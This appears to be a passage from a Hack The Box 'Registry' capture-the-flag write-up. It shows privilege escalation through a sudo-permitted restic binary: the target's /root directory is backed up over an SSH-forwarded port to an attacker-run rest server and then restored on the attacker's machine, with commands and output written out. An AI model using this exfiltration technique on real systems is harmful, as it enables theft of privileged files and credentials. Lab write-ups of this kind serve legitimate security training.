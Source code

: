 ![alt text](25.png "Zer0Code")

* after some searching about restic we found its a backup program that connecting to rest server so we can deploy our server and forword a backup to it and restore it later on our machine

```console
apt install restic
```
```console
root@Kali:~/HTB/registry# restic init --repo /tmp/restic
enter password for new repository: 
enter password again: 
created restic repository 45jff4kc9n at /tmp/restic

Please note that knowledge of your password is required to access
the repository. Losing your password means that your data is
irrecoverably lost.

```
* Now we can forward the rest port to our machine over ssh as bolt

![alt text](26.png "Zer0Code")

```console
www-data@bolt:~/html/bolt/files$ echo "zerocode" > pswd
www-data@bolt:~/html/bolt/files$ sudo /usr/bin/restic backup -r rest:http://127.0.0.1:8000 --password-file pswd /root
scan [/root]
[0:00] 10 directories, 14 files, 28.066 KiB
scanned 10 directories, 14 files in 0:00
[0:07] 100.00%  28.066 KiB / 28.066 KiB  24 / 24 items  0 errors  ETA 0:00 

duration: 0:07
snapshot 4kd94bv saved

```
* Now we can restore the backup on our machine
```console
root@Kali:~/HTB/registry# restic -r /tmp/restic/ restore latest --target ./
enter password for repository: 
repository 45jff4kc9n opened successfully, password is correct
restoring <Snapshot 4kd94bv of [/root] at 2020-04-03 20:07:59.491096967 +0000 UTC by root@bolt> to ./
```

[logo]: 01.jpg